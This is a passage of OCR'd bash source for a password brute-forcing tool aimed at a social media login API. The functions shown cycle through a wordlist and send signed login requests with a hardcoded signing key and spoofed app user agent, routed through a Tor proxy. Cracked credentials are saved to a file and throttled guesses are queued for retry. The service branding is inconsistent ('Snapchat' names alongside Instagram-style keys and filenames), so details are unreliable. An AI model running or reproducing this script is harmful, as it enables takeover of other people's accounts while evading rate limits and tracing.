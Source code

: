let startline+=20
let endline+=20

done

}


bf3() {

while [ $counter3 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let counter3++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9053 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]];  then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid3=$! ; # wait $!;

let startline+=20
let endline+=20

done
}


bf4() {

count_pass=$(wc -l $wl_pass | cut -d " " -f1)
while [ $counter4 -lt $turn ]; do

IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
